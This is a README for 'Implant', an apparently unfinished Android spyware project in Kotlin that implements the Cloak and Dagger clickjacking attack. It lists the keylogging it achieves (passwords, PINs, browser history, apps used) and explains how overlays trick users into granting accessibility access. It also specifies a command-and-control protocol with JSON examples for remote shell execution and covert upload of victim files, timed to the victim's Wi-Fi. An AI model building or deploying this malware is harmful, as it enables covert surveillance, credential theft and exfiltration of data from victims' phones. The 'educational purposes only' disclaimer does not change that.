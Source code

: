 Cloak and Dagger Implementation
===============================
Implant is an (unfinished) implementation of the Android Clock and Dagger vulnerability in Kotlin.
To learn more about Cloak and Dagger see, http://cloak-and-dagger.org.

If the overlays do not display correctly on your phone, adjust the overlay dimensions in the
relevant Stage subclasses.
Currently only the AccessibilityStage of the attack automatically determines the position of the
UI elements being clickjacked.

You can contact me at cooper@cooperthecoder.com.
Pull requests, questions, suggestions and criticism are welcomed.


Requirements
============
+ Android Studio with Kotlin support (3.0+ or with Kotlin plugin)

Installing Implant
==================
To install Implant, import this code into a version of Android Studio with Kotlin support.
Since Android only grants the SYSTEM_ALERT_WINDOW permission to apps from the Play Store, you'll
have to manually enable the permission and press the back button to begin the attack, or publish
it to the Play Store.
Implant uses coloured translucent overlays to show exactly what is going on in the background.
Simply click the holes in the overlay to progress the attack.

Supported Devices
-----------------
+ Nexus 5X Nougat
+ Nexus 5X Marshmallow
+ Nexus 4 Lollipop

Accessibility Service Capabilities
==================================
Done
----
+ Log non-password keystrokes
+ Log browser history
+ Log selected text
+ Log applications used
+ Log Security Pin
+ Log password keystrokes

To Do
-----
+ Install additional payload from an APK

Overlay Capabilities
====================
Done
----
+ Determine the position of our AccessibilityService in the Settings Menu dynamically
+ Clickjacking -> a11y working on some screen sizes

To Do
-----
+ Determine the location of all clickjacking targets dynamically

Command and Control
===================
Implant uses push notifications in order to receive commands from the C&C.
This will enable the operator to interact with devices under her control in a chat-like
manner.
To avoid finishing the victim's mobile data allowance, no large payloads are transmitted
on mobile connections.
Instead, payloads are sent via push as URLs and added to a queue locally to be
downloaded when the victim connects to an unmetered Wi-Fi network.
Large uploads are handled similarly.
When an upload command is sent via push, the data will be encrypted using the server's
public key and queued for upload when the victim connects to Wi-Fi.

Supported Operations
--------------------
+ Queue files for upload when device is idle and connected to Wi-Fi
+ Execute shell commands from the C&C

Push Service
------------
The CommandService is started whenever the device is idle and connected to an
unmetered network.
It opens a Websocket connection to the C&C and listens for commands.
On startup, the client signals it is ready to receive commands by sending its unique
Android device ID.
When the user disconnects from the unmetered network, this service should stop
immediately and close the socket.
All messages between client and server represent remote function calls.

#####Message Format
Key | Type | Description
----|------|----------------
command | String | The function to be called on the remote end.
arguments | Map(String -> String) | Arguments to be passed to the function.
nonce | String | A unique ID to allow for tracking of command execution. The nonce does not have to be random but must be unique

#####Execute
The `execute` command allows the server to execute a shell command on the device.
```
{
    "command": "execute",
    "nonce": "1234-5467-4353-6468"
    "arguments": {
        "shell_command": "whoami"
    }
}
```

#####Upload
The `upload` command allows the server to queue a file on the device for uploading when the device
is idle and connected to an unmetered network.
```
{
    "command": "upload",
    "nonce": "1234-5467-4353-1359"
    "arguments": {
        "filename": "/sdcard/Documents/CompanySecrets.docx"
    }
}
```

#####Reply
Sometimes, the output of a command is useful.
The `reply` command should be used to send a reply, and is supported by both client and server.
Since there is no guarantee that commands will execute in order, the nonce should be used to
track which command the response is for.
```
{
    "command": "reply"
    "nonce": "1234-5467-4312-0987"
    "arguments": {
        "command": "1234-5467-4353-1359",
        "output": "/sdcard/Documents/CompanySecrets.docx queued for upload.",
        "error": ""
    }
}
```

Disclaimer
==========
I am not responsible for anything illegal, immoral or stupid you do with this code.
Please use it for educational purposes only.
